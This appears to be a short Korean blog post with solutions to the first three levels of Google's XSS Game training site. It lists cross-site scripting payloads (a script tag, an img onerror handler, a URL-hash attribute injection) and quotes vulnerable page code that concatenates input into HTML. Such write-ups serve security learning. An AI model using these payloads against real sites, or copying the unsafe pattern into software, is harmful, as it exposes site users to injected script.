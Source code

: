 ```yaml
---
layout: post
title: "Google XSS Game Area"
date: 2014-06-01 18:52:28 +0900
comments: true
categories: 
---
```


[Google XSS Game Area](http://xss-game.appspot.com/)

### Level 1
    
Search form 에

    a<script>alert('hi');</script>

### Level 2

    <blockquote> 안에서도 <img> 는 먹으니까. <img src='hi.jpg' onerror='alert("hi");'>

### Level 3

    function chooseTab(num) {
        ...
        html += "<img src='/static/level3/cloud" + num + ".jpg' />"
        $('#tabContent').html(html);

        window.location.hash = num;
        ...
    }
    ...
    window.onload = function() {
        if (event.source == parent) {
            chooseTab(self.location.hash.substr(1));
        }
    }

URL 의 hash 부분에 html 이 influenced 되니까, 브라우저의 URL 표시창의 `#` 뒷부분에 입력한다.

    #'onerror="alert('hi');">
